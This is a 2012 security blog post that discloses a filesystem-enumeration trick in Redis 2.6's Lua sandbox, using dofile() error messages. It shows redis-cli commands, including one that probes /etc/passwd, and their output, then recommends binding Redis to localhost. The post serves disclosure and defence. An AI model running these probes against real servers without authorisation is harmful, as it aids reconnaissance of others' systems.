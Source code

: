 #date: 2012-11-14 18:34:00 GMT
#slug: filesystem-enumeration-using-redis-and-lua
#tumblr_post_url: http://blog.liftsecurity.io/post/35714931664/filesystem-enumeration-using-redis-and-lua
#tags: redis, lua, security
#title: Filesystem Enumeration using Redis and Lua
#type: text

[Redis 2.6][0] was recently released by [Antirez][1] at the end of [RedisConf][2]. One of the major features that comes with 2.6 is embedded [Lua scripting][3].   
  
Even though the Lua sandbox within Redis has been very locked down to only the base library and a [few others][4], we have found at least one way to abuse Lua to get some data from outside the sandbox.  
  
There is a function to load and execute a file called dofile()  
  
Given the fact that Lua scripts should perform atomically, this function shouldn't actually exist in the sandbox. We have a pending [pull request][5] to remove this function.  
  
The errors this function gives allow an attacker to determine if a file or directory exists or not. This might be useful in locating a web root or determining the operating system. Not a significant vulnerability in and of itself, but gives information to an attacker they would not otherwise have.  
  
When a file doesn't exist we get a very obvious "No such file or directory error"  
  
net read 127.0.0.1:6379 id 1: -ERR Error running script (call to f\_b5e5869caf1de9ffa1ae173bf46fef3024d3f987): cannot open /dev/a: **No such file or directory**   
  
  
Here is an example of how to do this enumeration from a shell.

    $ redis-cli -h localhost -p 6379 eval "dofile('/etc/passwd')" 0

(error) ERR Error running script (call to f\_afdc51b5f9e34eced5fae459fc1d856af181aaf1): /etc/passwd:2: unexpected symbol near '\#'

    $ redis-cli -h localhost -p 6379 eval "dofile('/tmp')" 0

(error) ERR Error running script (call to f\_70391feea8a62e239b3055c11b7d9d1d8c78db6e): cannot read /tmp: **Is a directory**

    $ redis-cli -h localhost -p 6379 eval "dofile('/doesnotexist')" 0

(error) ERR Error running script (call to f\_e84ccf03dc6b3547568096467afa7b3242ed108d): cannot open /doesnotexist: **No such file or directory**   
  
Conclusion for penetration testers:  
Keep an eye out for Redis servers on the network during your assessments   
  
Conclusion for everyone else:  
Keep your Redis server off the Internet by setting "bind 127.0.0.1" in the redis.conf file.   
  


[0]: http://redis.io/
[1]: https://twitter.com/antirez
[2]: http://redisconf.com
[3]: http://redis.io/commands/eval
[4]: https://gist.github.com/3924845
[5]: https://github.com/antirez/redis/pull/732
